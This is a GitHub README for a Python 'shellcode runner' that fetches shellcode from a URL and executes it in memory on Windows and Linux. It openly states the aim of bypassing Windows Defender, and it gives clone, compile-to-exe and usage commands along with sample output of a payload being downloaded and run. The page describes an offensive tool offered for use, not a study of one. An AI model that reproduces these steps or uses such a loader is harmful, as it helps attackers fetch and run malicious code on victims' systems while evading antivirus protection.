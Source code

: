 # buffshark-shellcode-runner

## Python Shellcode Runner for windows and linux
This script utilizes mmap(for linux) and win32 api wrappers (for windows) to execute shellcode in memory and bypass Windows Defender.

## Installation and Compiling
1. Download the repo: `git clone https://github.com/momo1239/buffshark-shellcode-runner`
2. `cd buffshark-shellcode-runner/`
3. Optional: Install pyinstaller to compile to windows executable: `pip install pyinstaller`
4. Optional: Compile: `pyinstaller -F buffshark.py`

## Usage
Example: `python3 buffshark.py -u http://127.0.0.1:8080/shellcode.bin -a [win/nix]`

```
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
[+] Downloading shellcode...
[+] 49 Bytes Downloaded!
[+] Running shellcode in memory...
README.md  antiscan.PNG  antiscanres.PNG  buffshark.exe  buffshark.py  shell.bin  shellcode
```
